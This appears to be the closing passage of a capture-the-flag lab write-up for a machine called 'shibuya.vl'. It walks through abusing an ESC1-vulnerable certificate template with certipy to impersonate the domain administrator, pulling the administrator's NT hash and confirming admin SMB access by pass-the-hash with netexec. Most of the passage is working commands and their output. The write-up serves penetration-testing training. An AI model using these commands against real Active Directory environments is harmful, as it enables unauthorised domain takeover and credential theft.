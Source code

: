 As we could see on the bloodhound screen that i put a little above, ```nigel.mills``` is part of ```t1_admins group```

So let's abuse of the ```ESC1```

```bash
proxychains -q certipy req -u "Nigel.Mills@shibuya.vl" -p "REDACTED" -dc-ip "10.10.103.65" -target "AWSJPDC0522" -ca 'shibuya-AWSJPDC0522-CA' -template 'ShibuyaWeb' -upn '_admin' -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 26
[*] Got certificate with UPN '_admin'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```
And retrieve the NT hash

```bash
proxychains -q certipy auth -pfx '_admin.pfx' -username '_admin' -domain 'shibuya.vl' -dc-ip 10.10.103.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:ba...30
```
```bash
nxc smb shibuya.vl -u '_admin' -H 'ba...30'
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\_admin:ba...30 (admin)
```
Nice !! If you have any questions you can dm me on discord : 'ethicxz.'
